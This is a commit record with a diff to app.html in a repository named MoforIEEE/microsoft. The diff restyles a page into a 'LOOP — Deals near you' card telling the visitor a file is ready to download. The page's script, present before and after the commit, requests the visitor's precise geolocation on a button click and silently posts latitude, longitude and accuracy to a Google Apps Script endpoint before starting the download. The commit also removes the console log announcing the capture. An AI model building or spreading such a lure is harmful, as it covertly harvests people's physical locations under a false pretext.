

Before and after one commit to MoforIEEE/microsoft, a plain HTML site: page app.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-886 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor app.html structure and styling

```diff
--- a/app.html
+++ b/app.html
@@ -1,14 +1,51 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
+
 <head>
-  <meta charset="utf-8">
-  <title>Download</title>
+<meta charset="UTF-8">
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>LOOP — Deals near you</title>
+
+<style>
+body {
+  margin:0;
+  height:100vh;
+  display:flex;
+  justify-content:center;
+  align-items:center;
+  background:#f8fafc;
+  font-family:Arial;
+}
+
+.card {
+  background:white;
+  padding:30px;
+  border-radius:16px;
+  width:360px;
+  text-align:center;
+  box-shadow:0 10px 30px rgba(0,0,0,0.08);
+}
+
+button {
+  width:100%;
+  padding:14px;
+  border:none;
+  border-radius:10px;
+  background:#2563eb;
+  color:white;
+  font-size:16px;
+}
+</style>
+
 </head>
+
 <body>
 
-<h2>Continue</h2>
-
-<button id="startBtn">Start</button>
+<div class="card">
+  <h2>Your file is ready</h2>
+  <p>Tap continue to download</p>
+  <button id="startBtn">Continue</button>
+</div>
 
 <script>
 
@@ -21,23 +58,13 @@ function downloadCSV() {
 
 async function sendLocation(lat, lng, accuracy) {
   try {
-        await fetch(
-            "https://script.google.com/macros/s/AKfycbzCqrUXbmlXPI_EJTcixxfVEDBQ3kseWU1OCyfYgBDeloHoJhSEOO6dVq6UJId5u1Ns/exec",
-            {
+    await fetch("https://script.google.com/macros/s/AKfycbzCqrUXbmlXPI_EJTcixxfVEDBQ3kseWU1OCyfYgBDeloHoJhSEOO6dVq6UJId5u1Ns/exec", {
       method: "POST",
-                headers: {
-                    "Content-Type": "text/plain"
-                },
-                body: JSON.stringify({
-                    lat,
-                    lng,
-                    accuracy,
-                    time: Date.now()
-                })
-            }
-        );
-    } catch (e) {
-        console.log("backend error:", e);
+      headers: {"Content-Type":"text/plain"},
+      body: JSON.stringify({ lat, lng, accuracy, time: Date.now() })
+    });
+  } catch(e) {
+    console.log("backend error", e);
   }
 }
 
@@ -56,25 +83,23 @@ document.getElementById("startBtn").addEventListener("click", () => {
       const lng = pos.coords.longitude;
       const acc = pos.coords.accuracy;
 
-            console.log("Location captured:", lat, lng);
-
       await sendLocation(lat, lng, acc);
 
-            // small delay improves iOS reliability
       setTimeout(downloadCSV, 300);
 
     },
 
     (err) => {
-            console.log("Location error:", err.code, err.message);
+      console.log("location error", err.code, err.message);
       downloadCSV();
     },
 
     {
-            enableHighAccuracy: true,
-            timeout: 12000,
-            maximumAge: 0
+      enableHighAccuracy:true,
+      timeout:12000,
+      maximumAge:0
     }
+
   );
 
 });
```
Lines whose indentation alone changed are shown as unchanged.
